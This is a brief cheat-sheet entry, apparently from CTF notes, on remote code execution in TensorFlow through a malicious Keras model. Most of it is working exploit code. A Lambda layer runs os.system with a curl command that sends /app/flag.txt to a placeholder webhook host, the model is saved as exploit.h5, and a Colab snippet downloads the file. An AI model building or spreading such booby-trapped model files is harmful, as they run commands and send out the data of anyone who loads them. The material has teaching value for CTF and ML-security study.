 # AI

## Tensorflow RCE
- [Tensorflow RCE](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)
- [Google Colab](https://colab.research.google.com/)

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("curl \"https://webhook.xxx/fl4g?content=$(cat /app/flag.txt)\"")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

```python
from google.colab import files
files.download("exploit.h5")
```